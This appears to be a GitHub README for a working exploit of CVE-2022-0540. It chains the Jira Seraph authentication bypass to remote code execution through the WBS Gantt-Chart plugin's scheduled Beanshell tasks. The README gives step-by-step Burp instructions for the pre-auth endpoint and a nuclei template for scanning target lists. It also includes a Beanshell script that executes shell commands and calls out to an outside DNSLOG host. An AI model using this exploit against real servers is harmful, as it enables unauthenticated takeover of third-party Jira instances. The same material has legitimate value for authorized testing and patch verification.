










# Atlassian Jira Seraph Authentication Bypass RCE（CVE-2022-0540）


<p align="center">
  <a href="https://github.com/Pear1y/CVE-2022-0540-Preauth-RCE/blob/main/README.md">English</a> •
  <a href="https://github.com/Pear1y/CVE-2022-0540-Preauth-RCE/blob/main/README_CN.md">中文</a>
</p>


## Exploit Details

As seen in author's [blog](https://blog.viettelcybersecurity.com/cve-2022-0540-authentication-bypass-in-seraph/), atlassian provided a long list of affected plugins (the vast majority of which were false positives), and the author listed several actual affected plugins



According to the prompted conditions, combined with the Official documentation for [WBS Gantt-Chart for Jira](https://ricksoft-support.atlassian.net/wiki/spaces/WGCE0914/pages/2930802887/Global+job+scheduler+settings+-+aggregating+reflecting+time+tracking+and+calculating+progress+rate)



Essentially, it is a RCE using the Beanshell Script of the job scheduler module Task, the exploit details are as follows.

1. For manual operation it's better to use the BurpSuite's replacement function `Proxy > Options > Match and Replace`, edit rule.



2. Use burp as a proxy to access the vulnerable Jira software，open `http://IP:PORT/secure/WBSGanttManageScheduleJobAction.jspa;` then you can check `job scheduler configuration`



Since our final Beanshell Script is executed as a timed task, you can modify the execution interval for your convenience by clicking Edit and modifying it according to the Cron format.

3. create Task



4. config Task



After the configuration is complete, click Update but jump to the login page, do not worry, the Task has actually been added in the background.

5. Enable Task



The newly created Task is Disable by default, you need to change it to Enable manually and then wait for a few seconds for Script to execute.

6. DNSLOG record



at the same time, you can find the prompt that execution completion in job scheduler.



<br>

Preconditions

```
WBS Gantt-Chart for Jira <= 9.14.3.1
```


## Verify Exploitable

```yaml
id: CVE-2022-0540

info:
  name: Atlassian Jira Seraph - Authentication Bypass Verify Exploitable(CVE-2022-0540)
  author: DhiyaneshDK
  severity: critical
  description: |
    Jira Seraph allows a remote, unauthenticated attacker to bypass authentication by sending a specially crafted HTTP request. This affects Atlassian Jira Server and Data Center versions before 8.13.18, versions 8.14.0 and later before 8.20.6, and versions 8.21.0 and later before 8.22.0. This also affects Atlassian Jira Service Management Server and Data Center versions before 4.13.18, versions 4.14.0 and later before 4.20.6, and versions 4.21.0 and later before 4.22.0.
  reference:
    - https://blog.viettelcybersecurity.com/cve-2022-0540-authentication-bypass-in-seraph/
    - https://nvd.nist.gov/vuln/detail/CVE-2022-0540
    - https://confluence.atlassian.com/display/JIRA/Jira+Security+Advisory+2022-04-20
  classification:
    cvss-metrics: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
    cvss-score: 9.8
    cve-id: CVE-2022-0540
    cwe-id: CWE-287
  metadata:
    shodan-query: http.component:"Atlassian Jira"
  tags: cve,cve2022,atlassian,jira,exposure,auth-bypass

requests:
  - method: GET
    path:
      - '{{BaseURL}}/secure/WBSGanttManageScheduleJobAction.jspa;'

    matchers-condition: and
    matchers:
      - type: word
        part: body
        words:
          - 'WBS Gantt-Chart'

      - type: regex
        regex:
          - '<td headers="name">([.|\D]*?)</td>'
        dsl: []

      - type: status
        status:
          - 200

```

Run-Demo

```
nuclei -l targets.txt -t exploit.yaml
```

Screenshot




## Referer

https://blog.viettelcybersecurity.com/cve-2022-0540-authentication-bypass-in-seraph/

https://ricksoft-support.atlassian.net/wiki/spaces/WGCE0914/pages/2930802887/Global+job+scheduler+settings+-+aggregating+reflecting+time+tracking+and+calculating+progress+rate

Beanshell Script

```java
import java.io.IOException;
import java.lang.*;

Runtime runtime = Runtime.getRuntime();

try {

    String command = "ping -nc 1 55d2721a.dns.1433.eu.org";

    if (System.getProperty("os.name").toLowerCase().contains("windows")) {
    	runtime.exec(new String[]{"cmd.exe", "/c", command});
    } else {
    	runtime.exec(new String[]{"/bin/bash", "-c", command});
    }

} catch (IOException e) {
    e.printStackTrace();
}

```


***The information mentioned in this article is intended for legitimate, authorized penetration testing, internal company security checks and research use only. The user is responsible for any adverse consequences arising from the use of the information provided in this article.***
